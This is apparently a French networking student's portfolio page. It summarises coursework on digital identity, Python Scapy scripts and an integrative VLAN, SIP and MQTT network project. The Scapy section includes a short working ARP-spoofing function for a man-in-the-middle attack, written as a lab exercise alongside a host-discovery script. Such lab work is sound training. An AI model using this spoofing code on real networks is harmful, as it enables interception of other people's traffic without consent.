




UE x.3 – Programmer : outils & applications R&T
Identité numérique, traitement de données réseau et projet intégratif multi-services.
SAÉ1.04 – Se présenter sur Internet
Compétence : Identité numérique & e-réputation
Description
Réflexion sur l’identité numérique, création d’une page personnelle et présentation d’un centre d’intérêt / projet.
Preuves & traces
- Site du projet : ochf21.github.io/portfolio
Exemple de pratique sécurisée
Construction de l’identité numérique :
Ensemble des traces en ligne (profils, commentaires, photos…).
Gestion de l’e-réputation :
Réservation, recrutement ; importance des avis et contenus publics.
Mise en œuvre
- Portfolio pour consigner les bonnes pratiques.
- Page de présentation personnelle (cadre professionnel).
- Centre d’intérêt : résumé en anglais.
Conclusion
Compétences : gestion identité numérique, création web pro,
amélioration e-réputation.
Importance de séparer public / privé et produire un contenu positif.
SAÉ1.05 – Traiter des données
Compétence : Programmation réseau (Scapy)
Description
Scripts Python avec Scapy : découverte d’hôtes et attaque Man-in-the-Middle.
Projet 1 – Découverte automatique des hôtes
Options : -a (ICMP actif) · -p (ARP passif)
· -t (test plage) · -x (export).
from scapy.all import *
def discover_hosts_active(ip):
ans, unans = sr(IP(dst=ip)/ICMP(), timeout=2)
for snd, rcv in ans:
print(f"{rcv.src} is up")
if unans:
print(f"No response from {unans.summary()}")
Projet 2 – Attaque MITM (ARP Spoofing)
from scapy.all import *
def arp_spoof(target_ip, host_ip):
packet = ARP(op=2, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", psrc=host_ip)
send(packet, verbose=False)
# Exécution
arp_spoof("192.168.1.2", "192.168.1.1")
Conclusion
Compétences : analyse & manipulation de paquets, scripts Scapy, compréhension des attaques potentielles.
SAÉ2.04 – Projet intégratif
Compétence : Gestion & configuration réseau local
Description
Maquette réseau VLAN, téléphonie SIP, collecte MQTT et appli Web pour visualiser les données.
Preuves & traces
- Topologie réseau, découpage IP, DHCP, NAT, ACL.

- VLAN Voix / Utilisateurs / Serveurs / Admin.

- Collecte MQTT en temps réel.


Exemples de pratiques sécurisées
- Réseau : segmentation VLAN.
- Téléphonie : authentification SIP.
- Données : chiffrement MQTT.
- Web : contrôle d’accès, auth utilisateur.
Conclusion
Acquis : admin réseau, VoIP, MQTT, Django/MySQL.
Importance de la séparation des responsabilités et de la sécurité
sur chaque couche.
SAE3.02 – Apps communicantes
Page en cours de préparation…